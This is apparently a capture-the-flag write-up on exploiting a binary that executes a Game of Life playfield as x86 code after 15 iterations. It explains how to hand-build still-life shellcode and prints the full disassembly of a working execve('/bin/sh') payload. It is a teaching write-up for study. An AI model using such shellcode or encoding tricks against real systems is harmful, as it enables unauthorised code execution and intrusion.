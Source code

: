## Introduction

The binary is a Game of Life simulator that accepts an arbitrary playfield
pattern, runs 15 iterations, and then segfaults. Disassembling it reveals that
after the 15th iteration of the simulation, it jumps into the playfield buffer
and runs it as x86 code.

## Simulation

The Game of Life playfield is 110x110 cells, with no wrapping. It is stored as a
bit-packed buffer, row-major, MSB first. Note that the width is not divisible by
8, so the byte boundaries differ on each row (there is no row padding).

## Problem

Throwing some shellcode into the buffer is easy, but the shellcode has to
survive 15 iterations of the simulation. This is not an easy problem. Instead of
trying to come up with some voodoo code to build a 15th predecessor to the
shellcode (which may not be practical), I decided to instead hand-craft the
shellcode out of "still life" patterns. Still life patterns are those which
do not change at all during the Game of Life simulation.

Useful still lives include:

      []        [][]      [][]    []    []            [][]    [][]  []
    []  []    []    []    [][]    [][][][]              []    []  [][]
      []        [][]            table on table    [][][]       snake
     tub      beehive    block    [][][][]      []integral
                                  []    []      [][]

... and their respective mirrored and rotated versions.

This restricts the bit patterns that are possible, but there are quite a few
useful ones.

In addition, I could also use trivial oscillators, such as the blinker:

                       []
    [][][]    ->       []
                       []

This is a simple period-2 oscillator. As the simulation runs 15 times, which
is an odd number, this needs to be in the opposite state to the desired one when
the pattern is fed in.

## Jumping around

All of the aforementioned patterns span more than one line, and lines interact
with each other. 110 bits is not enough for shellcode, so the code has to span
multiple lines of the playfield. To solve this, I decided to place jumps at
the end of each row.

Each row allows for 13 whole bytes to be included. The jump takes up the last
two bytes and jumps ahead 8 rows, so every 8 rows I have 11 bytes of space
available. By making the spacing a multiple of 8, I keep the rows byte aligned,
so I can set up an 8x8 grid and have it line up with the byte boundaries.

`jmp` (`e9` or `eb`) is hard to encode, with lots of 1 bits set. However, `jno`
is a lot easier (`71`), and most instructions clear the overflow bit, so it
behaves like an unconditional jump most of the time. `71 61` will jump ahead
from the end of a row to the beginning of the 8th row down.

This gives me a nice framework with lots of space for shellcode to fill in,
broken up by jumps, as long as I don't accidentally set the overflow bit.

## Padding

`nop` is easy to encode (`90` is just a beehive along the middle row), but
having that 1 bit on the left interacts badly with the previous instruction
quite often. I found a more useful 2-byte "nop": `add al,0x0` is `04 00`, which
is easy to encode with a tub (top or bottom row) and won't collide with adjacent
patterns. I used this at times before the final jump of a row, or between two
annoyingly colliding instructions. This also conveniently clears the overflow
bit.

## The Row 0 Problem

The still life patterns require more than one row, but the code begins executing
on the first row (row 0) where we can only support patterns from below. `jno`
needs 3 consecutive 1 bits, which need at least one support row above (as in the
blinker), so that's out. Instead, I decided to pad out the first row with some
kind of garbage instruction that would let me reach the second row and throw
a jump in there. A good choice for this ended up being `or eax, <foo>`, which
is `0d xx xx xx xx`. This can be encoded with a bi-block, and allows for 4 bytes
of padding. Three of these in sequence reach the second row, where a `jno` can
be encoded, intruding into the dummy operand bytes of the previous instructions.
The way the offset worked out, the first jump actually jumps to one byte before
the first normal row of code (row 8), but I set up the jump at the end of that
row (which is spatially below that byte) in a way that turned it into a harmless
`inc eax`, so that's no problem.

## Nice instructions

`eax` is a lot easier to work with than the other registers, so I do most of
my work on `eax` and then use `xchg` (which is a single byte) to move it into
other registers. For the immediate values that spell out `/bin/sh`, I split each
32-bit chunk into two chunks with alternate nybbles, which are added together.
This makes it much easier to encode, since every valid nybble value is easily
encodable using the above still life patterns, as long as it is surrounded by
whitespace.

`mov eax, imm` is annoying (`b8 xx xx xx xx`), but `add eax, imm` is a lot nicer
(`05 xx xx xx xx`), so I use the latter and just zero out `eax` first with
`xor eax, eax`.

Where adjacent instructions interact in a way that I can't trivially encode with
the still life patterns, I inserted the `04 00` "nop".

A more exhaustive search would easily reduce the size of the shellcode, but at
this point it was a lot easier to write verbose shellcode reusing a few "nice"
instructions than to try to find more optimal encodings.

## Tools

I used Golly to hand-craft the Life pattern, and wrote a simple plug-in
[script](mc2asm.py) to interpret it as x86 asm, remove garbage, and disassemble
the result. This allowed me to quickly see the effects of various patterns and
make sure I was not making any mistakes. The script also copies the ready-made
input for the challenge binary to the clipboard.

## Final solution

The final life pattern is completely static, except for two blinkers that form
part of the jump in the second row, and one blinker in the payload (that could
be removed by rearranging instructions a bit, but I got lazy).

![Final pattern](pattern.png)

The final shellcode disassembles to the following code, broken up into lines
and with junk bytes removed:

      0:   0d 80 20 00 00          or     eax,0x2080
      5:   0d 80 00 00 00          or     eax,0x80
      a:   0d 80 00 00 36          or     eax,0x36000080
      f:   71 5c                   jno    0x6d
     6d:   40                      inc    eax
    
     6e:   90                      nop
     6f:   31 c0                   xor    eax,eax
     71:   92                      xchg   edx,eax
     72:   31 c0                   xor    eax,eax
     74:   05 0f 03 08 00          add    eax,0x8030f
     79:   71 61                   jno    0xdc
    
     dc:   05 20 70 60 00          add    eax,0x607020
     e1:   50                      push   eax
     e2:   31 c0                   xor    eax,eax
     e4:   90                      nop
     e5:   90                      nop
     e6:   90                      nop
     e7:   71 61                   jno    0x14a
    
    14a:   90                      nop
    14b:   05 0f 02 09 0e          add    eax,0xe09020f
    150:   05 20 60 60 60          add    eax,0x60606020
    155:   71 61                   jno    0x1b8
    
    1b8:   50                      push   eax
    1b9:   31 c0                   xor    eax,eax
    1bb:   93                      xchg   ebx,eax
    1bc:   01 e3                   add    ebx,esp
    1be:   04 00                   add    al,0x0
    1c0:   52                      push   edx
    1c1:   53                      push   ebx
    1c2:   90                      nop
    1c3:   71 61                   jno    0x226
    
    226:   90                      nop
    227:   90                      nop
    228:   90                      nop
    229:   90                      nop
    22a:   31 c0                   xor    eax,eax
    22c:   91                      xchg   ecx,eax
    22d:   01 e1                   add    ecx,esp
    22f:   04 00                   add    al,0x0
    231:   71 61                   jno    0x294
    
    294:   90                      nop
    295:   31 c0                   xor    eax,eax
    297:   04 0b                   add    al,0xb
    299:   04 00                   add    al,0x0
    29b:   cd 80                   int    0x80

This is just a typical `execve("/bin/sh", ["/bin/sh", NULL], NULL)` shellcode,
built out of nice-to-encode instructions. Thankfully, `int 0x80` is very easy to
encode (just three blocks).

## Snags

The original solution didn't set `argv[0]`. This worked locally, but failed on
the vulnbox (with no error message). I tried `/bin/ls` instead, and that
complained about `argv[0]`, so I guessed that maybe it was some other shell that
didn't like the unset argv. Setting `argv[0]` made the solution work, and
revealed that the challenge was running inside a minimal Docker container with
only a Busybox environment. Busybox is a multicall binary, so of course it
needs a sane `argv[0]`.

